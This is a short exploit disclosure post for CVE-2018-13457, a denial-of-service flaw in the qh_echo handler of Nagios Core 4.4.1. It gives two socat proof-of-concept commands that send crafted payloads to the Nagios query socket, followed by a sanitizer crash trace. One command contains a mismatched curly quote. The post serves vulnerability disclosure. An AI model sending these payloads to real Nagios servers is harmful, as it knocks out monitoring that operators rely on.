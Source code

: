 ```yaml
---
layout: post
title: "[CVE-2018-13457] Nagios Core qh_echo Denial of Service"
comments: true
description: "Nagios Core qh_echo Denial of Service"
keywords: "nagios, nagioscore, dos, denial of service"
---
```


Exploit Title: Nagios Core qh_echo Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13457<br>

qh_echo in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne "#echo\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@echo\0" | socat unix-connect:./poc/nagios.qh -

#0 0x4cb18b in __interceptor_strcmp.part.60 /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:422
#1 0x554e98 in qh_echo /home/user/nagioscore/base/query-handler.c:29:7
#2 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#3 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#4 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#5 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#6 0x7f183c5f782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#7 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
